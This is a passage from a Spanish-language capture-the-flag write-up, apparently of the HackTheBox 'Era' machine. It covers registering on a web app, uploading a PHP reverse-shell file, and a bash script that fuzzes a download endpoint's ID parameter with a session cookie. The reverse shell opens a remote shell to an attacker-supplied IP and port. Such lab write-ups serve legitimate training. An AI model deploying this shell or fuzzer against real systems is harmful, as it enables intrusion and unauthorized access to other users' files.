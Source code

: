 Con esto veremos una ruta muy interesante llamada `/register.php`, si entramos en dicho archivo.

```
URL = http://file.era.htb/register.php
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 122337.png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, vamos a probar a registrar un usuario en la web, una vez registrado nos redirige al `login`, cuando iniciemos sesion con dichas credenciales, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 122458.png" alt=""><figcaption></figcaption></figure>

Si probamos a subir un archivo por ejemplo una `reverse shell`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Nos vamos a la seccion de `Upload Files` y si nos dejara subirlo:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 122653.png" alt=""><figcaption></figcaption></figure>

Pero si nos vamos a dicho `ID` de archivo, solamente nos dejara descargarlo, no nos permite acceder a dicho archivo, por lo que no podremos hacer mucho.

Pero si realizamos un poco de `fuzzing` en el parametro `ID` para ver que otros archivos pueden estar cargados en la pagina, nos vamos a montar un script que haga esto mismo:

> fuzzID.sh

```bash
#!/bin/bash

URL="http://file.era.htb/download.php"
COOKIE="PHPSESSID=<COOKIE>"

echo "[+] Probando IDs del 1 al 1000..."
echo "[+] Buscando archivos existentes..."
echo "[+] Guardando resultados en: results.txt"

> results.txt
valid_ids=0

for id in {1..1000}; do
    # Descargar contenido y verificar si es válido
    content=$(curl -s -H "Cookie: $COOKIE" "$URL?id=$id")
    
    # Verificar si contiene el mensaje de archivo válido
    if echo "$content" | grep -q "Your Download Is Ready!"; then
        # Extraer nombre del archivo
        filename=$(echo "$content" | grep -o '<p>[^<]*</p>' | sed -n '2p' | sed 's/<[^>]*>//g')
        size=$(echo "$content" | wc -c)
        
        echo "[+] ID VÁLIDO: $id - Archivo: $filename - Tamaño: $size bytes"
        echo "ID: $id - Archivo: $filename - URL: $URL?id=$id" >> results.txt
        ((valid_ids++))
        
        # Guardar el contenido HTML para análisis
        echo "$content" > "content_$id.html"
    fi
    
    # Progress cada 50 IDs
```